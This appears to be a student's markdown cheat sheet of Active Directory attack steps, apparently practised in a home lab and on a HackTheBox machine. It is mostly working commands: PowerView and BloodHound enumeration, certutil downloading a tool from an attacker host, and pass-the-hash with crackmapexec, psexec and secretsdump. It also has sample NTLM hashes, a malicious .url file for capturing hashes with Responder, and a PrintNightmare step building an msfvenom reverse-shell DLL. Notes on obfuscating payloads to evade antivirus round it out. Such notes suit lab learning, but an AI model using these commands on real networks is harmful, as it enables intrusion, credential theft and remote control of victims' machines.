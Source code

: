 **1 Enum: Powerview & Enum**
**2 Enum: Bloodhound**
**3 PTH / Post Enum Attack**
**4 URL File Attacks**
**5 References**

---

## **1. Powerview.ps1:**

Place powerview.ps1 on normal Wc10 machine

`powershell -ep bypass #bypass execution policy`

cd to dir with powerview.ps1

`. .\Powerview.ps1 #runs shell - returns 0 output`

Enumerate W10 machine

```
Get-DomainPolicy
(Get-DomainPolicy)."system access" #PW/ACC info
Get-Netdomain
Get-Netdomaincontroller
Get-Netuser | select cn
Get-Netcomputer -fulldata
Get-Computerinfo #HW info
Get-Netgroup -groupname *admin* # admin group names
Get-Netgroupmember -groupname "Domain Admins"
Invoke-Sharefinder #show all shares
Get-NetGPO | select displayname, whenchanged
```

---

## **2. Bloodhound:**

```
apt install bloodhound`
sudo neo4j console
click link to open "localhost..."
default creds: neo4j:neo4j 
kali$ bloodhound && then login with new creds.
```

**Download Ingestor:**

W10 download sharphound.ps1
```
> powershell -ep bypass \
> . .\sharphound.ps1 \ 
> Invoke-BloodHound -collectionmethod All -Domain Carbon.local -Zipfilename File.zip \
```

**HTB:: (see IppSecRules)**
Once creds are found: (IE: active.htb/(\)svc_tgs:GGPStillStandingstrong18)
    + obtain shell access w/ low level user: (Window10 box w/ openvpn, sharphound.ps1)
        `cmd> runas /netonly /user:active.htb\svc_tgs cmd #will run without Windows10 validation specifiy PW as well`
        New cmd prompt comes up with access to machine. see ![runas_cmd](Screenshots/runas_windows.png)    
    + Now because user(svc_tgs) has been authenticated: run bloodhound.
    + **See ![BH_DL_VIA_netonly](Screenshots/Bloodhound_DL.png)**
```
        kali# python3 -m http.server 8080        
        cmd> certutil -urlcache -f http://<attack-ip>:8080/SharpHound.exe SharpHound.exe
        || in browser: http://<attack-ip>:8080 && DL sharphound.exe there. 
``` 

   + Move bloodhound info to Kali machine:
   + Inspect with Neo4j on kali machine:
        See ![bloodhound.zip](Screenshots/create_bloodhound_zip.png)

move file.zip first onto baremetal Desktop then to kali VM.
#make sure sudo neo4j start && sudo bloodhound
import data :: enjoy



## **Attacking AD - Post-Compromise Attacks:**

## **3. Pass-The-Hash:**
```
apt install crackmapexec \ 
crackmapexec smb 192.168.86.0/24 -d carbon.local -u e.triage -p 'Password!1' \
```
![PTH_propanol_oxytocinDC_ethyl](Screenshots/Pass_Hash_e_triage.png)

`crackmapexec smb 192.168.86.0/24 -d carbon.local -u e.triage -p 'Password!1' --sam` \ 

![PTH_sam](Screenshots/PTH_sam.png) 

`psexec.py carbon.local/e.triage:'Password!1'@192.168.86.206` \

![psexec_loud_shell](Screenshots/psexec_shell_noisy.png) \ 

## **Secretsdump.py:**

`secretsdump.py carbon/e.triage:'Password!1'@192.168.86.206` \

![secrets](Screenshots/secrets_dump.png)

## **NTLM hash Example:**

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
Propylene  Malz:1001:aad3b435b51404eeaad3b435b51404ee:3d888ed3f1196c792588c37ddfd32746:::
Ethyl Triage:1001:aad3b435b51404eeaad3b435b51404ee:2d450bc49b158d89cc6ec49db47ba095:::
```
**You can pass NTLM hashes around but CANNOT pass NTLMv2 hashes**
        
**4.Example script:**

+ filename: @something.url #Try to accommodate to folder/user name
+ Placed in C:\Share
```
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\<attack-ip>\%USERNAME%.icon
IconIndex=1
```
+ `kali$ sudo responder -I eth0 -v`
+ Visit Share fold with domain admin
+ Creds obtained see ![URL_Attack](Screenshots/URL_Attack.png)
+ Also suspectable to ***relaying***

**5 PrintNightmare (CVE-2021-1675)::**
+ Check vuln:
```
$ rpcdump.py @192.168.86.205(DC) | egrep 'MS-RPRN|MS-PAR'::
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
***Vulnerable***

***Host dll***
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attack-ip> LPORT=5555 -f dll > shell.dll
$ msfconsole use multi/handler set lhost <attack-ip> LPORT=5555 setpayload windows/x64/meterpreter/reverse_tcp run

***Setup file share***
smbshare.py share 'pwd' (share on present working dir)
***setup UN&PW***
```
+ TODO:: obfuscate .dll for AV bypassing. Try:: [obsfucar](https://medium.com/@s961441/obfuscate-your-application-dll-files-with-obfuscar-a60cb950a9bb)

**6 Mikikatz::**
+Post exploitation of DC
+Mimikatz needs to be on DC
+TODO obfuscate payloads



DOMAIN enumeration::
https://uci.bootcampcontent.com/UCI-Coding-Bootcamp/uci-irv-virt-cyber-09-2021-u-c/-/blob/master/Lessons/16-Penetration-Testing/1/lessonplan.md#recon-ng-demonstration

---
## **References:**
```
[log4j_notice_devs](https://community.neo4j.com/t/log4j-cve-mitigation-for-neo4j/48856)\
[powerview.ps1_GH](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView)\
[hacktricks_BH](https://book.hacktricks.xyz/windows/active-directory-methodology/bloodhound)\
[bloodhound_GH](https://github.com/BloodHoundAD)\
[sharphound.ps1_GH](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)
[Ippsec_rules](https://www.youtube.com/watch?v=jUc1J31DNdw)
[URL_attack_writeable_share](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share)
[CVE-2021-1675_1](https://github.com/cube0x0/CVE-2021-1675)
[CVE-2021-1675_2](https://github.com/calebstewart/CVE-2021-1675)
[Mimikatz](https://github.com/gentilkiwi/mimikatz)
```
